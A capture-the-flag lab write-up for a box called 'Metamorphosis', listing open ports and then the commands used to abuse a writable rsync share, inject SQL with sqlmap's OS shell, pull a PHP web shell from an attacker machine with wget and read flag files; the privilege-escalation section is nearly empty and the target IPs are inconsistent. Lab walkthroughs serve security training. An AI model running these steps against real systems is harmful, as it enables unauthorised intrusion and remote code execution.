




# Metamorphosis

**IP Address:** 10.10.219.194

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 22 | ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80 | http | Apache httpd 2.4.29 ((Ubuntu)) |
| 139 | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |
| 445 | netbios-ssn | Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP) |
| 873 | rsync | (protocol version 31) |


## Exploitation
### Exploit Details (SQL Injection)
* **Name** - N/A
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. Enumerate rsync shares. 

Commands
```bash
nc -vn $ip 873
@RSYNCD: 31.0 
```


2. Copy contents of Conf folder locally.

Commands
```bash
rsync -av rsync://10.10.180.224/Conf ./rsync
```


3. Enuermate the admin website http://10.10.180.224/admin

Commands
```bash
curl http://10.10.180.224/admin/
```


4. Modify the webapp.ini file that was downloaded via rsync

Commands
```bash
cat rsync/webapp.ini
nano rsync/webapp.ini
cat rsync/webapp.ini
```



5. Copy webapp.ini file back to the server.

Commands
```bash
rsync -av ./rsync/ rsync://10.10.180.224/Conf
```


6. Navigate to the http://10.10.180.224/admin website. 



7. Set Burpsuite to intercept requests then type something in the Username field and click Submit Query. In Burpsuite right click on the request and select copy to file. Save the file as request.txt



8. Run sqlmap with the saved request. Accept all defaults. 

Commands
```
sqlmap -r request.txt --risk 3 --level 5 --os-shell
```


9. Download a shell to the server

Commands
```
wget 10.4.29.43/shell.php
```



10. Initiate shell and gain user flag. 

Commands
```
curl http://$ip/shell.php
whoami
cat /home/tom/user.txt
```


## Privilege Escalation
### Exploit Details (Metasploit)
* **Name** - N/A
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

Commands
```bash

whoami
cat /root/proof.txt
```
